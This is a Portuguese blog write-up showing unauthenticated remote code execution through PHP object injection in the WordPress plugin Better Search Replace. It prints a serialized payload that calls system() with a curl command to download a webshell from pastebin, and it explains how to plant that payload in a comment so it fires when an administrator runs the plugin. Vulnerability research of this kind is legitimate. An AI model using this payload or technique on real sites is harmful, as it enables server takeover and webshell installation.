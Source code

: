 ```yaml
---
layout: post-pt
title: PHP Object Injection no Better Search Replace
permalink: /pt/web/php-object-injection-better-search-replace
---
```


**Atenção**: A técnica demonstrada neste artigo tem o propósito de ser um material educativo, a exploração foi feita em um ambiente controlado. Não realize esta exploração sem a autorização do dono do servidor, pois isto poderá resultar em um crime!

![](/imgs/php-object-injection-better-search-replace/plugin_info.png)

O Better Search Replace é um plugin que possui a função de fazer exatamente o que o nome dele sugere, ele busca uma string na sua base de dados do Wordpress e substitui por outra string que você forneceu.

Sinceramente não entendo porque é tão usado, segundo o Wordpress, existe **mais de 1 milhão de instalações ativas**.

![](/imgs/php-object-injection-better-search-replace/search.png)


![](/imgs/php-object-injection-better-search-replace/serialization.png)

Dentre suas funcionalidades, o plugin consegue realizar o processamento de objetos PHP serializados, então resolvi fazer Code Review deste plugin.

Depois de algum tempo na análise estática, encontrei o [trecho de código abaixo](https://plugins.trac.wordpress.org/browser/better-search-replace/trunk/includes/class-bsr-db.php
), ele é responsável por realizar a deserialização. Achei interessante, logo comecei a análise dinâmica.

![](/imgs/php-object-injection-better-search-replace/func_unserialize.png)

Infelizmente não encontrei um trecho de código que possibilitasse iniciar a POP Chain utilizando o próprio plugin (que por acaso tornaria a vulnerabilidade bem mais crítica) :disappointed:. Por sorte, o Wordpress permite que um plugin consiga acessar as classes ou funções que foram definidas em outros plugins, ou seja, não existe um "sandbox". Consequentemente, isto abre a possibilidade de iniciar a POP Chain utilizando o código-fonte de outros plugins.

Para facilitar a minha vida, criei o plugin ["WP Object Injection Proof of Concept"](https://github.com/growlnx/WP-Object-Injection-PoC), este plugin possibilita o ataque de **Reutilização de Código**, me poupando tempo com **POP Chains**.

![](/imgs/php-object-injection-better-search-replace/plugin_vuln.png)

Ele se resume a nessa pequena classe com o método mágico ["__wakeup"](https://www.php.net/manual/pt_BR/language.oop5.magic.php#object.wakeup). Caso deseje reproduzir em um cenário mais aproximado da realidade, recomendo que veja o [PHPGGC](https://github.com/ambionics/phpggc), pode te ajudar.

Meu objetivo neste momento é fazer download de uma webshell e conseguir a RCE desautenticado. O payload abaixo fará o download de um arquivo do [pastebin](https://pastebin.com/raw/E3cNN0Zy) usando o [curl](https://curl.haxx.se/).

{% highlight php %}
O:2:”OI”:2:{s:3:”cmd”;s:48:”curl -o ws.php https://pastebin.com/raw/E3cNN0Zy“;s:3:”fcn”;s:6:”system”;}
{% endhighlight %}

Agora só resta saber onde devemos realizar a injeção... que tal nos comentários?

![](/imgs/php-object-injection-better-search-replace/tabela.png)

O plugin permite que o usuário realize o processamento na tabela de comentários, isso é bem legal, pois podemos injetar o payload nos comentários e esperar a iteração do administrador no plugin **Better Search Replace** para disparar a substituição.

![](/imgs/php-object-injection-better-search-replace/comment_evil.png)

Como pode se observar na imagem acima, o administrador é notificado a respeito do comentário, logo, também será necessário contar a sorte.

![](/imgs/php-object-injection-better-search-replace/request_admin_search.png)

Se o payload for interpretado com sucesso, o download de uma simples webshell será realizado no diretório "wp-admin".

![](/imgs/php-object-injection-better-search-replace/rce.png)

*Voilà*!, foi possível obter uma unauth RCE através de uma deserialização insegura do conteúdo nos comentários.

## Referências

- [better-search-replace/trunk/includes/class-bsr-db.php](https://plugins.trac.wordpress.org/browser/better-search-replace/trunk/includes/class-bsr-db.php)
- [OWASP - PHP Object Injection](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)
- [CWE-502: Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)
- [PHP Magic Methods](https://php.net/manual/en/language.oop5.magic.php)
- [Blackhat - Utilizing Code Reuse/ROP in PHP Application Exploits](https://owasp.org/www-pdf-archive/Utilizing-Code-Reuse-Or-Return-Oriented-Programming-In-PHP-Application-Exploits.pdf)
